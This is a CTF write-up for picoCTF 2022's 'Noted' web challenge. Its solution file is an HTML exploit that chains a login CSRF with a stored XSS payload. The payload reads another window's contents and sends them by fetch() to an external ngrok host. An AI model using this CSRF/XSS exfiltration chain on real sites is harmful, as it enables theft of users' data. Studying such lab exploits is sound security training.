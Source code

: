 ```yaml
---
name: Noted (2022)
event: Pico CTF 2022
category: Web
description: Writeup for Noted (Web) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Noted

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/OUizLCfp9Dw/0.jpg)](https://youtu.be/OUizLCfp9Dw?t=669 "Pico CTF 2022: Noted")

## Description

> Web Challenge I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?

## Solution

#### exploit.html

```html
<body>
    <p>flag plz</p>
    <form action="http://0.0.0.0:8080/login" method="POST" id="loginForm">
        <input type="text" name="username" value="admin" />
        <input type="password" name="password" value="admin" />
        <input type="submit" value="Submit" />
    </form>
    <script>
        // Open notes in new window (containing the flag)
        window.open("http://0.0.0.0:8080/notes", "flagWindow");
        // Force admin to login to our account
        loginForm.submit();
        // When the admin arrives to our account, our XSS note will steal the flag:
        /* <script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://3297-81-103-153-174.ngrok.io?flag=' + flag);<//script> */
    </script>
</body>
```
